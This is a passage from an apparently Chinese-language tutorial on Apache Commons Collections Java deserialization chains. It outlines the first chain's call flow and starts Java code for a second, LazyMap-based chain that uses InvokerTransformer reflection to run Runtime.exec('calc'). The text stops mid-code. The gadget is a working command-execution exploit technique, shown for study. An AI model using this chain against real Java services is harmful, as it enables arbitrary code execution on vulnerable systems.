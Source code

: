       	# 通过调用transformedMap的静态decorate()方法赋值，valueTransformer的值为：ChainedTransformer对象
      	-valueTransformer.transform(value);
      	# 循环调用ChainedTransformer的transform方法
      	-ChainedTransformer.transform()
      	# 拿到Runtime.class
      	-ConstantTransformer.transform()
      	-完成调用
      	
      
      ```



### 第二条链子

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

/**
 * 功能：
 *
 * @author 长瀞同学
 * @ClassName ${NAME}
 * @description ${DESCRIPTION}
 * @date 2023-05-30 22:00
 * @Version 1.0
 */
public class Main {
    public static void main(String[] args) throws Exception{

        ChainedTransformer transformer = new ChainedTransformer(new Transformer[]{
                // 提前将Runtime放进去
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        });

        HashMap<Object, Object> hashMap = new HashMap<>();
        Map<Object,Object> lazymap = LazyMap.decorate(hashMap, transformer);
```